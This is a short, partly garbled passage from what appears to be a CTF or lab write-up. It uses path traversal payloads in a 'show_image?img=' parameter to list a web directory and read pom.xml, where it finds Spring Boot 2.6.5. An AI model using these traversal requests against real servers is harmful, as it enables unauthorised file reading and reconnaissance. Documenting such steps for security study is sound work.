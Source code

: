```
```
- Response nothing, it might caused by permission denied

![](./IMG/8.png)
- Check the web directory
```
/show_image?img=//..//..//..//..//..//..//var//www//WebApp//
```

![](./IMG/9.png)
- Check framework and library(```pom.xml```)
```
/show_image?img=//..//..//..//..//..//..//var//www//WebApp//pom.xml
```
- Find spring boot 2.6.5
